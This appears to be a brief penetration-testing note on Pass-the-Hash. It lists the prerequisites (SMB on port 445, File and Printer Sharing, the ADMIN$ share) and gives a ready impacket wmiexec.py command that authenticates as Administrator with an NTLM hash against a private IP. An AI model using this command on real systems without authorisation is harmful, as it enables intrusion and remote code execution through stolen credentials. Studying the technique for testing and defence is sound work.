

# Pass the Hash
-  PtH has three prerequisites that must be met.
   -  Requires SMB connection (445)
   -  Windows File and Printer Sharing feature to be enabled
   -  the admin share called ADMIN$ to be available
```bash
cd impacket-latest/examples

python3 wmiexec.py -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@192.168.104.73
```
